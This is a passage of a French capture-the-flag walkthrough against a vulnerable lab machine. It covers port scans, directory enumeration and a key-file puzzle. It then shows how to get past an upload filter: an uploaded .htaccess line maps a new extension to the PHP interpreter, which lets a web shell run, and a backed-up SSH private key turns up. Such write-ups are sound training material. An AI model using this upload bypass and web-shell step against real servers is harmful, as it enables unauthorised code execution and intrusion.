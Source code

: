 Une fois l'image recréée, je zoome et voit marqué `cle.txt` au milieu de l'image.

Si on uploade un fichier `cle.txt` dans le dossier `serrure` on trouve un autre port ouvert sur la machine :

```
26980/tcp open  http    Apache httpd 2.4.25 ((Debian))
```

Mais on est bloqué par la page d'index :

```html
<!DOCTYPE html>
<html>
<body>
<!-- Test présence fichier cle.txt : OK -->
<!-- Test contenu fichier cle.txt  : Erreur -->
<p>Tout ce qui est, est père du mensonge et fils du néant</p>
</body>
</html>
```

Via une énumération je trouve un dossier `/uploads/` mais il est vide :

```
200       15l       49w      748c http://192.168.56.171:26980/uploads/
200       13l       26w      626c http://192.168.56.171:26980/manual/
403       11l       32w      298c http://192.168.56.171:26980/icons/
403       11l       32w      306c http://192.168.56.171:26980/server-status/
```

Finalement en cherchant le message de la page d'index je tombe sur ce blog :

[&quot;Farbauti&quot; ? &quot;Ibn Oblivion&quot; ? - Tout le bonheur du monde 2.0](https://blog.chaosklub.com/post/2005/09/29/256-farbauti-ibn-oblivion)

Il laisse supposer que le contenu du fichier `cle.txt` doit être `Khaos Farbauti Ibn Oblivion`.

Une fois placé le bon contenu dans le FTP, on parvient à une page d'upload mais l'extension `.php` est refusée et les extensions `.php3`, `.phtml`, `.phar` ne sont pas interprétées.

L'extension `.phps` passe l'upload mais on obtient une erreur 403 à l'accès.

J'ai utilisé une astuce dont je me suis déjà servi sur d'autres CTFs à savoir uploader un fichier `.htaccess` permettant de lier l'interpréteur PHP à une nouvelle extension :

```
AddType application/x-httpd-php .yo
```

Après ça je peux uploader un `shell.yo` et le code PHP est bien interprété.

Je trouve alors une clé SSH dans `/var/www` :

```
-rwxr-xr-x  1 bob  bob  1675 May 12  2019 id_rsa.bak
```

Un port est aussi apparu entre temps :

```
26922/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
```
